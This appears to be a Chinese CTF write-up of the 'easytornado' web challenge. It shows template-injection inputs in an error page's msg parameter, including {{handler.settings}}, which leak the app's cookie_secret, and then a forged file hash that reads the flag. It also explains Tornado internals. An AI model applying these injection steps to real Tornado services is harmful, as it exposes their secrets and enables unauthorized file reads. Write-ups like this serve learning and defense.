 ```yaml
---
layout: post
title: Web进阶题-easytornado
excerpt: "攻防世界进阶Web题目-easytornado"
date:   2020-10-24 19:07:00
categories: [CTF]
comments: true
---
```


## 我的解题过程

1. 题目描述，"Tornado框架"

2. 访问目标网站，网页内容如下

   ```html
   <body>
       <a href="/file?filename=/flag.txt;filehash=cc8cddc19c52840b5cf02fae58d8adc2">/flag.txt</a>
       <br/>
       <a href="/file?filename=/welcome.txt&filehash=e02a7dad157af2c4bb8839db8bca3524">/welcome.txt</a>
       <br/>
       <a href="/file?filename=/hints.txt&filehash=0ad4fefa43655b5470862f02611b7221">/hints.txt</a></body>
   ```

   * flag.txt

     ```txt
     /flag.txt
     flag in /fllllllllllllag
     ```

   * welcome.txt

     ```txt
     /welcome.txt
     render
     ```

   * hints.txt

     ```txt
     /hints.txt
     md5(cookie_secret+md5(filename))
     ```

3. 按照这些链接的href属性可以看出访问文件的大致格式为"/file?filename=文件名&filehash=文件散列值"，由flag.txt可以得出文件名为"/fllllllllllllag"，hint.txt应该是对文件散列值的提示，可是cookie_secret不知道从哪里找，因为这个网站并没有存储cookie到本地

4. 我们有这些文件的散列，但是由于一次md5就是128位再加上cookie_secret的长度，不可能从这些md5散列值倒推出cookie_secret

   * md5(cookie_secret+md5(/flag.txt))=cc8cddc19c52840b5cf02fae58d8adc2
   * md5(cookie_secret+md5(/hint.txt))=0ad4fefa4365to5b5470862f02611b7221
   * md5(cookie_secret+md5(/welcome.txt))=e02a7dad157af2c4bb8839db8bca3524

5. 当访问不存在的路径时，只会返回404:Not Found，所以404页面也没办法注入

6. 当访问文件的filehash不正确时，进入了"/error"页面

   * 有一个msg参数会输出到页面上
   * msg参数用户可控

7. 尝试注入error页面的msg参数

   * 输入"/error?msg=4*4"，页面返回ORZ

8. 由于之前做过的Flask渲染模板注入题目，加之"welcome.txt"中的render，开始研究渲染中的注入

   * 尝试"/error?msg=\{\{"".\_\_class\_\_\}\}"，网页返回ORZ，尝试多次后，发现**魔术方法**均不能使用，所以之前Flask的SSTI攻击方法就**不可用**了，无法通过子类、父类、实例化来进行调用os等模块，所以只能调用当前处理函数可以访问到的已经实例化的对象

   * 当访问到"/error?msg=\{\{handler\}\}",网页返回内容为"\_\_main\_\_.ErrorHandler object at 0x7fc20053e710>"

   * 在Pycharm中查看可利用的ErrorHandler的函数，发现它继承自RequestHandler

   * 查看ReuqestHandler源码，发现与settings方法

   * 访问"/error?msg=\{\{handler.settings\}\}"，网页没有返回ORZ，网页返回内容如下

     ```txt
     {'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': '3b454adf-5caa-4fb8-8d78-b1df4c7af327'}
     ```

   * 成功获取到cookie_secret，3b454adf-5caa-4fb8-8d78-b1df4c7af327

9. 计算最终filehash

   * md5(/fllllllllllllag)=3bf9f6cf685a6dd8defadabfb41a03a1
   * cookie_secret+md5(/fllllllllllllag)=3b454adf-5caa-4fb8-8d78-b1df4c7af3273bf9f6cf685a6dd8defadabfb41a03a1
   * md5(cookie_secret+md5(filename))=5915a62b92ba31f67d058fe531b69846

10. 构造最终URL，"/file?filename=/fllllllllllllag&filehash=5915a62b92ba31f67d058fe531b69846"，网页返回内容如下

    ```txt
    /fllllllllllllag
    flag{3f39aea39db345769397ae895edb9c70}
    ```

11. 发现flag，flag{3f39aea39db345769397ae895edb9c70}

12. 提交，答案正确

## 独立思考

### 1. Tornado框架是什么？

Tornado是一个基于Python的Web服务框架和异步网络库，通过非阻塞I/O，可以承载成千上万的活动连接，完美的实现了长连接、WebSocket。

```python
#异步网络库
import tornado.ioloop
#Web框架，包括用来创建Web应用程序的RequestHandler等类
import tornado.web


class MainHandler(tornado.web.RequestHandler):
    def get(self):
        self.write("Hello World")


def make_app():
    return tornado.web.Application([
        (r"/", MainHandler),
    ])


if __name__ == '__main__':
    app = make_app()
    app.listen(8888)
    tornado.ioloop.IOLoop.current().start()

```

### 2. Tornado中的cookie_secret是干什么用的？

Tornado的set_secure_cookie()和get_secure_cookie()方法用于设置和获取浏览器Cookie。

* set_secure_cookie()设置Cookie时会用cookie_secret对值进行HMAC签名，同时把时间戳添加到值中
* get_secure_cookie()从浏览器获取Cookie后，会使用cookie_secret进行签名校验，若签名不符或时间戳太旧，则认为cookie已被篡改

### 3. Tornado中有哪些可以利用的对象？

Tornado中的处理URL的对象为handler，这些handler类都继承自RequestHansdler。

* 在每次请求中，Application会根据注册将URL映射到Handler，并且每次请求会单独实例化一个对应的Handler对象。

  ```python
  def make_app():
      #传进去一个Handler与URL一一对应的Rule的数组
      return tornado.web.Application([
          (r"/",MainHandler),
      ])
  ```

* 对象的initialize被调用，传入的参数来自Application组态

  * RequestHandler的init函数

    ```python
    def __init__(
        self,
        application: "Application",#指向Application
        request: httputil.HTTPServerRequest,
        **kwargs: Any
    ) -> None:
        super(RequestHandler, self).__init__()
    
        self.application = application
        self.request = request
        self._headers_written = False
        ..........
    ```

  * RequestHandler的settings函数

    ```python
    @property
    def settings(self) -> Dict[str, Any]:
        """An alias for `self.application.settings <Application.settings>`."""
        return self.application.settings
    ```

* 对象的prepare()被调用

* 对象中一个HTTP方法被调用

* 处理完成后，on_finish()被调用

#### 最有效的找法

[官方文档](https://tornado-zh.readthedocs.io/zh/latest/guide/templates.html)的模板和UI模块给出了一些可以访问的对象

- escape: [tornado.escape.xhtml_escape](https://tornado-zh.readthedocs.io/zh/latest/escape.html#tornado.escape.xhtml_escape) 的别名
- xhtml_escape: [tornado.escape.xhtml_escape](https://tornado-zh.readthedocs.io/zh/latest/escape.html#tornado.escape.xhtml_escape) 的别名
- url_escape: [tornado.escape.url_escape](https://tornado-zh.readthedocs.io/zh/latest/escape.html#tornado.escape.url_escape) 的别名
- json_encode: [tornado.escape.json_encode](https://tornado-zh.readthedocs.io/zh/latest/escape.html#tornado.escape.json_encode) 的别名
- squeeze: [tornado.escape.squeeze](https://tornado-zh.readthedocs.io/zh/latest/escape.html#tornado.escape.squeeze) 的别名
- linkify: [tornado.escape.linkify](https://tornado-zh.readthedocs.io/zh/latest/escape.html#tornado.escape.linkify) 的别名
- datetime: Python [datetime](https://docs.python.org/3.4/library/datetime.html#module-datetime) 模块
- handler: 当前的 [RequestHandler](https://tornado-zh.readthedocs.io/zh/latest/web.html#tornado.web.RequestHandler) 对象
- request: [handler.request](https://tornado-zh.readthedocs.io/zh/latest/httputil.html#tornado.httputil.HTTPServerRequest) 的别名
- current_user: [handler.current_user](https://tornado-zh.readthedocs.io/zh/latest/web.html#tornado.web.RequestHandler.current_user) 的别名
- locale: [handler.locale](https://tornado-zh.readthedocs.io/zh/latest/locale.html#tornado.locale.Locale) 的别名
- _: [handler.locale.translate](https://tornado-zh.readthedocs.io/zh/latest/locale.html#tornado.locale.Locale.translate) 的别名
- static_url: [handler.static_url](https://tornado-zh.readthedocs.io/zh/latest/web.html#tornado.web.RequestHandler.static_url) 的别名
- xsrf_form_html: [handler.xsrf_form_html](https://tornado-zh.readthedocs.io/zh/latest/web.html#tornado.web.RequestHandler.xsrf_form_html) 的别名
- reverse_url: [Application.reverse_url](https://tornado-zh.readthedocs.io/zh/latest/web.html#tornado.web.Application.reverse_url) 的别名
- 所有从 ui_methods 和 ui_modules Application 设置的条目
- 任何传递给 [render](https://tornado-zh.readthedocs.io/zh/latest/web.html#tornado.web.RequestHandler.render) 或 [render_string](https://tornado-zh.readthedocs.io/zh/latest/web.html#tornado.web.RequestHandler.render_string) 的关键字参数

## 产生过的疑问

1. Tornado框架是什么？
2. Tornado中的cookie_secret是干什么用的？
3. Tornado中有哪些可以利用的对象？

